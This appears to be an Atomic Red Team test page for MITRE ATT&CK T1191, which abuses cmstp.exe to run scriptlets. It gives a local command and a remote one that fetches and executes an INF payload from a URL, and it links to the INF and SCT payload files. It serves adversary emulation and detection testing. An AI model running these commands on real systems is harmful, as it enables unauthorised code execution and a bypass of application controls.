 # CMSTP

## MITRE ATT&CK Technique:
[T1191](https://attack.mitre.org/wiki/Technique/T1191)

## Scriptlet execution

### Local

    cmstp.exe /s CMSTP.inf

### Remote:

    cmstp.exe /ni /s https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/CMSTP.inf

## Test Script

[CMSTP.INF](https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/CMSTP.inf)

[CMSTP.SCT](https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/CMSTP.sct)
